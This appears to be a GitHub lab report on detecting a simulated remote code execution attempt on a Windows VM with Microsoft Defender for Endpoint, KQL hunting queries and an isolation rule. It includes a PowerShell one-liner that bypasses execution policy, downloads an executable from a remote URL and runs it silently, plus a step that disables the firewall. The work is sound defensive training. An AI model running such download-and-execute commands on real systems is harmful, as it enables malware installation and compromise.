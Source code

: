 # RCE-Detection-Report
📝 RCE - Remote Code Execution Detection Report (Windows VM)

📌 Introduction

This report outlines the steps taken to detect and mitigate a Remote Code Execution (RCE) attack using Microsoft Defender for Endpoint (MDE) on a Windows Virtual Machine (VM). The lab involved creating an intermediate detection rule, executing a suspicious PowerShell command, triggering alerts, isolating the affected VM, and investigating the attack.
📋 Prerequisites

To complete this lab, the following are required:

- A Windows Virtual Machine (VM)

- Microsoft Defender for Endpoint (MDE) configured

- Microsoft Defender Security Portal Access (security.microsoft.com/machines)

🔥 Lab Execution Steps

1️⃣ Disabling Windows Firewall

To simulate a vulnerable system, the Windows Firewall is turned off:

Press Win + R, type wf.msc, and hit Enter.

Select Turn Windows Firewall on or off and disable it for all profiles.

- (Disabling the firewall allows attackers to discover the VM easily.)

2️⃣ Onboarding the VM to Microsoft Defender for Endpoint

1. Navigate to the MDE Portal: security.microsoft.com/machines

2. Confirm the VM is onboarded by verifying its status in the portal.

3. Verify logs are being generated using Advanced Hunting:

```
DeviceLogonEvents
| where DeviceName startswith "mydevice-"
| order by Timestamp desc
```
3️⃣ Creating a Detection Rule for RCE 🚨

A custom detection rule is created to detect PowerShell-based RCE attempts.

🛠️ Executing a Simulated Remote Code Execution Attack

Use PowerShell ISE to execute the following command:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait" 
```
🕵️‍♂️ KQL Query for Detection

This query filters logs for Invoke-WebRequest and Start-Process execution:
```
let VMName = "my-vm-name";
DeviceProcessEvents
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "Invoke-WebRequest" and InitiatingProcessCommandLine contains "Start-Process"
```
🛑 Detection Rule Configuration
To create a detection rule, click the top right corner where it says "Create Detection Rule". You’ll then be taken to the screen where you can complete the Alert Details.
![Screenshot 2025-02-04 at 9 44 56 PM](https://github.com/user-attachments/assets/344d9905-d39c-4af2-bdbf-a81b46afb90b)
Impacted entities:
Define the impacted entities (in this case, the specific VM) for the detection rule.
![image](https://github.com/user-attachments/assets/2c691201-1b8d-4215-a33a-4351aadf7407)
Actions:
Choose the actions that should be taken when the detection rule is triggered. For this rule, we want to ensure that the VM is isolated and an investigation package is collected.
![Screenshot 2025-02-04 at 9 47 03 PM](https://github.com/user-attachments/assets/1a7a59fb-9619-41b8-aea9-4ddf62ed594a)
Summary:
![Screenshot 2025-02-04 at 9 56 19 PM](https://github.com/user-attachments/assets/94dd1a5d-6984-4d1d-9955-2da905f46994)


✔️ Isolate Device

✔️ Collect Investigation Package

4️⃣ Triggering the Alert & Isolating the VM

Execute the PowerShell command to generate logs.

Wait for alerts to appear in Advanced Hunting.

If isolation occurs, the rule has executed successfully.
![Screenshot 2025-02-04 at 10 32 24 PM](https://github.com/user-attachments/assets/0cc324c2-ce11-46a7-a4cc-48f1e7d8f0ef)

5️⃣ Investigating the Security Incident 🔍

Open Microsoft Defender Portal: security.microsoft.com/machines

Select the compromised VM and review the Action Center.

Examine logs using the following KQL query:
```
DeviceProcessEvents
| where DeviceName startswith "tou"
| where AccountName != "system"
| where InitiatingProcessCommandLine has_all ("Invoke-WebRequest", "Start-Process")
| order by Timestamp desc
```
(🔎 This filters logs for suspicious activity and excludes system processes.)

6️⃣ Resolving the Incident & Cleanup 🧹

Assign the alert to your user account and mark it as Resolved ✅.

Delete the detection rule 🚮.

Release the VM from isolation 🔓.

🔔 Conclusion

This lab demonstrated how to detect, contain, and investigate a Remote Code Execution attempt using Microsoft Defender for Endpoint. Proper security monitoring and custom detection rules ensure quick response to potential threats.
